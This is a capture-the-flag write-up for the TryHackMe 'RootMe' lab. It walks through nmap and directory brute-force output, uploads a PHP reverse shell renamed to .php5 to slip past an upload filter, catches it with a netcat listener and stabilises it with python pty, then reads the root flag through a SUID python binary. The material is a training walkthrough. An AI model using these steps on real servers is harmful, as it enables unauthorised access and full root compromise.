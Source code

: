 ```yaml
---
layout: post
title: THM Rootme writeup
date: 2020-08-01T12:25:26.802Z
---
```

## TASK 2

1. start a nmap scan 

```bash
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-09 23:03 BST
Nmap scan report for 10.10.132.201
Host is up (0.60s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.62 seconds
```

the ports open are : 2

2. apache version is here `Apache httpd 2.4.29 ((Ubuntu))` so 2.4.29
3. service on port 22 is ssh
4. start a directory bruteforce tool, i used [dirsearch.py](https://github.com/maurosoria/dirsearch)
5. the hidden directories : 
6.

```bash
[11:27:22] 301 -  312B  - /css  ->  http://10.10.179.137/css/
[11:27:35] 200 -  616B  - /index.php
[11:27:35] 200 -  616B  - /index.php/login/
[11:27:36] 301 -  311B  - /js  ->  http://10.10.179.137/js/
[11:27:49] 301 -  314B  - /panel  ->  http://10.10.179.137/panel/
[11:27:49] 200 -  732B  - /panel/
[11:27:57] 403 -  278B  - /server-status
[11:27:57] 403 -  278B  - /server-status/
[11:28:06] 301 -  316B  - /uploads  ->  http://10.10.179.137/uploads/
[11:28:06] 200 -744B  - /uploads/
```

the hidden directory is /panel/ and the interesting one is uploads

# Task 3

1. download a php reverse shell from [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php), change the LHOST and the port

```bash
wget "https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php"
```

then rename it to bypass file upload restrictions into .php5

```bash
mv php-reverse-shell.php rev.php5
```

then upload it and start a netcat listener

```bash
nc -lvnp LPORT
```

and now open the rev shell from your browser by visiting http://$IP/uploads/rev.php5

and now you should have a reverse shell

to stabilize your shell run :

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

and

```bash
python -c 'import os; os.system("/bin/bash")'
```

now get user.txt

```bash
cat /var/www/user.txt
THM{********************}
```

# Task 4 priv esc

1. after running

```bash
find / -user root -perm /4000
```

you'll see in the list also python that can be used to read files with higher permissions

answer : /usr/bin/python

3. get the root flag by simply running

```bash
python -c 'print(open("/root/root.txt").read())'
```